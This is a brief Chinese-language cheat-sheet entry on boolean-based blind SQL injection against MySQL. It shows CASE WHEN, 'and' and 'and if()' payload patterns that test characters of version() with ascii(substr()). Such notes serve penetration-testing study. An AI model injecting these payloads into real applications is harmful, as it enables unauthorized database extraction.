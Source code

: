 ## 布尔盲注 
mysql当中的常见判断语句为 

select case when {判断语句} then true_return else false_return end;
```
select case when (ascii(substr((select version()),1,1))=58) then 1 else 0 end;
```

简单一点的有直接判断布尔逻辑
and  {判断语句}
```
and ascii(substr((select version()),1,1)) = 52   
```

复杂一点进行判断
and if({判断语句},1,0)
```
and if(ascii(substr((select version()),1,1))=52,1,0)
```

